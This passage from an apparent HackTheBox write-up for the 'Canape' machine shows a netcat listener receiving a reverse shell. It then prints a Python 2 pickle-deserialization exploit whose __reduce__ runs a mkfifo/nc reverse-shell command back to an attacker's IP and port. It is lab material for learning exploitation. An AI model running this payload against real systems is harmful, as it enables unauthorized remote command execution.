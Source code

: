     </div>

    <div>

    <div>

        root@kali# nc -lnvp 4444
        listening on [any] 4444 ...
        connect to [10.10.15.48] from (UNKNOWN) [10.10.10.70] 58290
        /bin/sh: 0: can't access tty; job control turned off
        $ python -c 'import pty;pty.spawn("bash")'
        www-data@canape:/$

    </div>

    </div>

### Script Source

#### Note

I've got the source for my script here, but I'm going to plead with you
not to use it. Getting this exploit working was one of the most fun I've
had on HackTheBox. I'm going to add a section at the end on my approach
to this problem. If you haven't done this box, or are stuck here, jump
to the end, read that section, and give it a try before copying and
running this script.

#### Code

We'll use python2 here because the site is running python2, and we want
the pickle output to match.



    #!/usr/bin/env python

    import cPickle
    import os
    import requests
    import sys
    from hashlib import md5

    class Exploit(object):

        def __init__(self, cmd):
            self.cmd = cmd

        def __reduce__(self):
            return (os.system, ('echo moe && ' + self.cmd,))

    def main():
        if len(sys.argv) != 3:
            print("{} [ip] [port]".format(sys.argv[0]))
            sys.exit()

        ip = sys.argv[1]
        port = sys.argv[2]
        cmd = "rm /tmp/0xdf; mkfifo /tmp/0xdf; cat /tmp/0xdf | /bin/sh -i 2>&1 | nc {} {} > /tmp/0xdf".format(ip, port)
        exploit = cPickle.dumps(Exploit(cmd))
